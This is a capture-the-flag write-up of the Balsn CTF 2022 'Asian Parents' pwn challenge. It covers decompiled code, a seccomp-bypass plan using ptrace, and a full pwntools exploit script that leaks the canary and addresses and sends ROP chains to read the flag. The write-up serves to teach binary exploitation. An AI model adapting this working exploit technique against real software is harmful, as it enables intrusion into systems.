






### Asian Parents

was a pwn challenge from Balsn Ctf 2022.



so let's start directly analysing the main() loop where all the magic happens,

**Here is the C reversed code of function main():**

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[2]; // [rsp+Eh] [rbp-92h] BYREF
  char s[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 canary; // [rsp+98h] [rbp-8h]

  canary = __readfsqword(0x28u);
  memset(s, 0, 128);
  init();
  fwrite("==================================\n", 1uLL, 0x23uLL, stdout);
  fwrite(" Welcome to FAILURE MANAGEMENT!!!\n", 1uLL, 0x22uLL, stdout);
  fwrite("==================================\n", 1uLL, 0x23uLL, stdout);
  assign_work(s);
  print_work(s);
  pipe(pipe2child);
  pipe(pipe2parent);
  child = fork();
  if ( child == -1 )
    byebye();
  if ( child )
  {
    memset(s, 0, 0x80uLL);
    seccomp_parent();
    while ( !end )
    {
      menu();
      read(0, buf, 2uLL);
      if ( buf[0] == '3' )
      {
        write_and_sync(pipe2child_2_4054, "3", 1);
        read(pipe2parent[0], buf, 2uLL);
        fwrite("Very effective!\n", 1uLL, 0x10uLL, stdout);
        end = 1;
      }
      else
      {
        if ( buf[0] > '3' )
          goto LABEL_16;
        if ( buf[0] == '2' )
        {
          print_notes(s);
        }
        else
        {
          if ( buf[0] > '2' )
            goto LABEL_16;
          if ( buf[0] == '1' )
          {
            take_notes(s);
          }
          else if ( buf[0] != 10 )
          {
            if ( buf[0] != '0' )
            {
LABEL_16:
              write_and_sync(pipe2child_2_4054, "5", 1);
              byebye();
            }
            write_and_sync(pipe2child_2_4054, "0", 1);
            read(pipe2parent[0], buf, 2uLL);
          }
        }
      }
    }
  }
  else
  {
    seccomp_child();
    while ( !end )
    {
      if ( (int)read(pipe2child[0], buf, 1uLL) > 0 )
      {
        if ( buf[0] == '0' )
        {
          assign_work(s);
          print_work(s);
          write_and_sync(pipe2parent_2_405C, "OK", 1);
        }
        else
        {
          if ( buf[0] != '3' )
            exit(0);
          fwrite("Your failure is panicking\n", 1uLL, 0x1AuLL, stdout);
          write_and_sync(pipe2parent_2_405C, "OK", 1);
          end = 1;
        }
      }
    }
  }
  return 0;
}
```

**So what it is about?**

the program creates two processes, one parent and one child, and just before forking it creates two pipes for the processes to communicate.

Each process has a different seccomp applied.

**Here is the parent seccomp:**



It allows `read`, `write`, `exit`, `wait4`, `kill`, `ptrace`, and `exit_group` syscalls.

**Here is the child seccomp:**



It allows `read`, `write`, `exit`,`clock_nanosleep`, and `exit_group` syscalls.

using another syscall that these one, will return `TRACE`,

and what is this `TRACE` thing??? 

let's have a look at the seccomp manual:



so a tracer needs to be present, or the syscall will fail miserably..

so the tracer will be the parent process, as the `ptrace` syscall is authorized by its seccomp, and it will trace the child process.

when the tracer intercept the syscall, it can alter its registers, forbid it, or just use `PTRACE(PTRACE_CONT,pid,0,0)` to continue execution, and execute the syscall.. that's what we will do.

**The program present a menu:**



the option '1' --> "Takes notes on managing failure",  call the function `takes_notes()` which is a buffer overflow for parent, it will read up to 512 bytes in the char `s[136]` buffer on stack,  so we will use it to send a ROP to the parent process

the option '0' --> "Assign other work to your failure",  pass the option '0' to the child via the pipe, and the child will call the function `assign_notes()` which is also a buffer overflow for the child this time, it will read up to 512 bytes in the char `s[136]` buffer on stack,  so we will use it to send a ROP to the child process

the option '2' --> "Read notes on managing failure",  will print the `char s[136]` buffer to `stdout`, so we will use this with the buffer overflow to leak the various addresses on stack that we need for the ROP,  a libc address to calculate libc base address,  a program address to calculate the program base address, and stack address, and last but not least, we will leak the canary with it...

finally

the option '3' --> "Give your failure EMOTIONNAL DAMAGE"  will exit from the input loop, and return to our ROP

**So what is the exploitation plan ?**

+ well first we get our leaks with the Read Notes option...
+ then we send the ROP to the child, it will begin by a `sleep(1)` to wait for the parent to setup, then it will open() / read() / write() flag file to stdout..
+ then we send the ROP to the parent, it will first call `ptrace(PTRACE_SEIZE, child, NULL, PTRACE_O_TRACESECCOMP)`, to intercept TRACE seccomp events..then will call `wait()` to wait for child events,  then when an event is received it will call `ptrace(PTRACE_CONT, child, NULL, NULL)` to resume child execution and let it execute the syscall, after that we will loop the ROP (by modifying `rsp`), to the `wait()` call

so when the child will call open(), the parent will authorize it, and it will spit out the flag file to stdout..

where we will read it.. a bit like that:




the remote docker use ubuntu 22.04

**and here is the commented(more or less)  exploit:**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./chall')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')	# libc from ubuntu 22.04

host, port = "asian-parents.balsnctf.com", "7777"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

def corrupt_parent(p, payload):
    p.sendlineafter('> ', '1')
    p.sendafter('> ', payload)
    p.sendlineafter('> ', '3')

def corrupt_child(p, payload):
    p.sendlineafter('> ', '0')
    p.sendafter('> ', payload)

# leak canary
p.sendafter('> ', 'A'*0x89)
p.recvuntil('A'*0x89)
canary = u64(b'\x00'+p.recv(7))
print('canary = '+hex(canary))
# leak libc retmain address to calculate libc base
p.sendlineafter('> ', '1')
p.sendafter('> ', 'A'*0x98)
p.sendlineafter('> ', '2')
p.recvuntil('A'*0x98, drop=True)
libc.address = u64(p.recv(6)+b'\x00\x00') - 0x29d90
print('libc base = '+hex(libc.address))
# leak prog address to calculate prog base
p.sendlineafter('> ', '1')
p.sendafter('> ', 'A'*0xa8)
p.sendlineafter('> ', '2')
p.recvuntil('A'*0xa8, drop=True)
exe.address = u64(p.recv(6)+b'\x00\x00') - 0x18ef
print('prog base = '+hex(exe.address))
# leak stack address, to know where our ROP is
p.sendlineafter('> ', '1')
p.sendafter('> ', 'A'*0xb8)
p.sendlineafter('> ', '2')
p.recvuntil('A'*0xb8, drop=True)
rop_address = u64(p.recv(6)+b'\x00\x00') - 0x110
print('rop stack address = '+hex(rop_address))


rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rcx = rop.find_gadget(['pop rcx', 'ret'])[0]
pop_rdx_r12 = rop.find_gadget(['pop rdx', 'pop r12', 'ret'])[0]
mov_rsp_rdx = libc.address + 0x000000000005a170 # mov rsp, rdx ; ret
xchg_eax_esi = libc.address + 0x000000000004dab6 # xchg eax, esi ; ret
xchg_eax_edi = libc.address + 0x000000000014a385 # xchg eax, edi ; ret
xchg_eax_edx = libc.address + 0x00000000000cea5a # xchg eax, edx ; ret
mov_rax_rdi = libc.address + 0x000000000008f4e4 # mov rax, qword ptr [rdi + 0x68] ; ret
mov_rdi_rax = libc.address + 0x000000000011d1ea # mov qword ptr [rdi], rax ; mov qword ptr [rdi + 8], rsi ; ret

# construct the child ROP
c_rop = b'C'*0x88 + p64(canary) + p64(0)
c_rop += p64(pop_rdi)
# sleep the child to wait for parent using sleep()  (sleep will call nanosleep under the hood)
c_rop += p64(1)
c_rop += p64(libc.sym.sleep)

len_rop = 18*8 # distance of filename from beginning of rop
# open()
c_rop += p64(pop_rdi)
c_rop += p64(rop_address+len_rop)
c_rop += p64(pop_rsi)
c_rop += p64(0)
c_rop += p64(libc.sym.open)
# read file
c_rop += p64(xchg_eax_edi) # put open returned fd in edi
c_rop += p64(pop_rsi)+p64(exe.bss(0xa00))+p64(pop_rdx_r12)+p64(100)*2+p64(exe.sym.read)
# write its content to stdout with puts()
c_rop += p64(pop_rdi)+p64(exe.bss(0xa00))+p64(libc.sym.puts)
if args.REMOTE:
  c_rop += b'/home/asianparent/flag.txt\x00'
else:
  c_rop += b'flag.txt\x00'

corrupt_child(p, c_rop)

# parent payload
p_rop = b'A'*0x88+p64(canary)+p64(0xdeadbeef)
# ptrace(PTRACE_SEIZE, child, NULL, PTRACE_O_TRACESECCOMP)
p_rop += p64(pop_rdi)+p64(exe.sym['child']-0x68)+p64(mov_rax_rdi)  # read child pid from .bss
p_rop += p64(xchg_eax_esi)    # esi = child
p_rop += p64(pop_rdi)
p_rop += p64(16902) # PTRACE_SEIZE
p_rop += p64(pop_rdx_r12)
p_rop += p64(0)*2
p_rop += p64(pop_rcx)
p_rop += p64(0x80)  # PTRACE_O_TRACESECCOMP
p_rop += p64(libc.sym.ptrace)
# wait
p_rop += p64(pop_rdi) + p64(0x0) + p64(libc.sym.wait)
# ptrace(PTRACE_CONT, child, NULL, NULL)
p_rop += p64(xchg_eax_esi)    # esi = child
p_rop += p64(pop_rdi)
p_rop += p64(7) # PTRACE_CONT
p_rop += p64(pop_rdx_r12)
p_rop += p64(0)*2
p_rop += p64(pop_rcx)
p_rop += p64(0)
p_rop += p64(libc.sym.ptrace)
# loop to ROP --> wait
p_rop += p64(pop_rdx_r12)+p64(rop_address+(12*8))+p64(0)+p64(mov_rsp_rdx)

corrupt_parent(p, p_rop)

p.interactive()
```

**nobodyisnobody**, *still pwning things...*

